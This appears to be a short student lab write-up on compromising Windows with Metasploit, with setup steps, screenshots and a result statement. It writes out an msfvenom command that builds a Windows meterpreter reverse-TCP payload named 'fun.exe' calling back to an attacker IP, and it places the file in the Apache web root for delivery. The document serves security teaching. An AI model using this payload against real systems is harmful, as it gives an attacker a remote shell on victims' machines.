 # Compromising-windows-using-Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/13f8a0f8-4657-4262-8969-889a4294fdfa)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/da56f33a-edde-4105-ae85-d386f38b7fdd)

copy the fun.exe into the apache ``/var/www/html``` folder
![image](https://github.com/user-attachments/assets/ce4f6a71-b409-4223-b111-9789adfd506f)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

